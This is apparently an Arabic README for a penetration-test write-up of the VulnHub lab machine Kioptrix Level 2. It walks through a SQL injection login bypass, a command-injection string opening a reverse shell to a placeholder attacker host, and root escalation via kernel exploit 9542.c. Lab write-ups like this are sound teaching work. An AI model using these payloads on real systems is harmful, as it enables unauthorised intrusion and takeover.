

# Kioptrix Level 2 — تقرير اختبار الاختراق الشامل

[English Version](README.md) | [📖 قراءة التقرير بالعربية](README_AR.md)
[📄 تحميل التقرير الأصلي بصيغة PDF](./Kioptrix_2_Detailed_Writeup.pdf)

---

## 📋 بطاقة الهدف والمعلومات العامة

| العنصر | التفاصيل |
| :--- | :--- |
| **اسم الماشين** | Kioptrix Level 2 (منصة VulnHub) |
| **نظام التشغيل** | CentOS Linux (Kernel 2.6.9) |
| **مستوى الصعوبة** | سهل إلى متوسط |
| **نوع التقييم** | فحص تطبيقات ويب + تصعيد صلاحيات كيرنل لينكس |
| **أبرز الثغرات** | حقن قواعد البيانات (SQL Injection)، حقن أوامر النظام (Command Injection)، ثغرة كيرنل لينكس |
| **موطئ القدم الأولي** | تجاوز صفحة الدخول بـ SQLi وحقن أوامر في أداة الـ Ping |
| **تصعيد الصلاحيات (PrivEsc)** | استغلال ثغرة كيرنل 2.6.9 (`9542.c`) للحصول على صلاحية Root |

---

## 🎯 مسار الهجوم

---

## 🛠️ خطوات الهجوم العملية
1. **تجاوز الدخول بـ SQL Injection:** تجربة كود الحقن `' or 1=1 --` في اسم المستخدم وكلمة السر مكننا من تجاوز شاشة الدخول بنجاح.
2. **حقن أوامر النظام (Command Injection):** الصفحة الداخلية تحتوي على أداة لفحص الاتصال بـ Ping. قمنا بإدخال أمر:
   `127.0.0.1; bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1`
   ليتم إرجاع شل عكسي بصلاحيات مستخدم الويب `apache`.
3. **تصعيد الصلاحيات عبر الكيرنل:** كشف أمر `uname -a` عن كيرنل قديم `2.6.9`. قمنا بنقل استغلال `9542.c` وتجميعه وتشغيله لنحصل فوراً على شل المستخدم الخارق `root`.
